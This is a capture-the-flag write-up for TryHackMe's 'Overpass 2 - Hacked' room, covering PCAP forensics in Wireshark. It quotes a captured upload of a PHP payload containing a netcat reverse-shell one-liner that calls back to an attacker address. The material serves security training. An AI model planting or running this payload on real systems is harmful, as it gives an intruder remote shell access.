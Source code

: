 # TryHackMe - [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked) Write-Up

"Overpass has been hacked! Can you analyse the attacker's actions and hack back in?"

## Task 1: Forensics - Analyse the PCAP

Let's go ahead and make a directory for this room.

Now, we can download the pcapng file into the directory.

**1) What was the URL of the page they used to upload a reverse shell?**

Let's open Wireshark and drag in the PCAP to investigate what occurred.

You can also use terminal to open the capture as root.

```
sudo wireshark overpass2.pcapng
```

Let's start by following the TCP stream of the first packet.

```
GET /development/ HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Tue, 21 Jul 2020 01:38:24 GMT
If-None-Match: "588-5aae9add656f8-gzip"
```

Now that we know the directory of the URL used by the adversary, we can move on to the next stream.

**2) What payload did the attacker use to gain access?**

Let's start by following the next TCP stream on line 11.

```
POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
```
